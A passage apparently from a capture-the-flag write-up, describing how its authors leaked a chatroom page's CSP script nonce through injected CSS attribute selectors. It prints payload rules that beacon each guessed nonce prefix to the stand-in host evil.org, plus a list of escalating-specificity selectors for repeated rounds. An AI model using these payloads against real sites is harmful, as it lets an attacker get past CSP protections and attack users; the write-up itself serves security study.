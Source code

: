 This fits perfectly since we can inject arbitrary CSS! Therefore, like
proper hackers, we copied his scripts. However, the given selectors did
not work. Therefore, we began debugging the selectors on our own. After
fruitless attempts trying to match the `script` tag using Chrome we
noticed something peculiar: Chrome removes the `nonce` from the
`script`-tag after it has been loaded. However, Firefox happily keeps
the `nonce` in the DOM. Luckily, the attacker uses Firefox as we found
out from the admin\'s user-agent header.

Our first approach was to match the `script` tag directly:
`script[nonce^="a"]`. This should match any `script`-tag with a nonce
that starts with `a`. However, this didn\'t work as expected. After lots
of trial and error we figured out that you can\'t directly match a
`script`-tag, but you can use it as part of the selector when selecting
other elements. Therefore, we decided to use a sibling selector like
this: `script[nonce^="%s"] ~ nav`. Since `nav` is a sibling of the
`script`-tag this worked perfectly.

Using the above method we can send a message like this:
```
    script[nonce^="0"] ~ nav {background:url("http://evil.org/?match=0")}
    script[nonce^="1"] ~ nav {background:url("http://evil.org/?match=1")}
    ...
    script[nonce^="f"] ~ nav {background:url("http://evil.org/?match=f")}
```
which triggers only if at least one element matches the selector (and as
such, only the \"correct\" request is executed). Suppose the first
character is `a`, then our next payload is as follows:
```
    script[nonce^="a0"] ~ nav {background:url("http://evil.org/?match=a0")}
    script[nonce^="a1"] ~ nav {background:url("http://evil.org/?match=a1")}
    ...
    script[nonce^="af"] ~ nav {background:url("http://evil.org/?match=af")}
```
We can repeat this procedure 24 times to exfiltrate the whole nonce.

We implemented an attack server in python which receives the successful
request and sends another message to the chatroom querying the next
character as described above. The next payload is sent to the chatroom
directly by connecting to the websocket of the chatroom.

However, upon trying it out we noticed that only the first request was
being sent. This is because subsequent CSS injections have the same
specificity as the previous CSS rules, that means that the background
fetching isn\'t executed a second time. We solved this problem by
manually curating a set of 24 selectors from least to most important:
```
    script[nonce^="%s"] ~ *
    script[nonce^="%s"] ~ ul
    script[nonce^="%s"] ~ div
    script[nonce^="%s"] ~ input
    script[nonce^="%s"] ~ nav
    body > script[nonce^="%s"] ~ ul
    body > script[nonce^="%s"] ~ div
    body > script[nonce^="%s"] ~ input
    body > script[nonce^="%s"] ~ nav
    script[nonce^="%s"] ~ #messages
    script[nonce^="%s"] ~ #status
    script[nonce^="%s"] ~ #chatbox
    script[nonce^="%s"] ~ #recaptcha
    script[nonce^="%s"] ~ nav > a
    script[nonce^="%s"] ~ nav > #report-link
    script[nonce^="%s"] ~ nav > #username
    body script[nonce^="%s"] ~ #messages
    body script[nonce^="%s"] ~ #status
    body script[nonce^="%s"] ~ #chatbox
```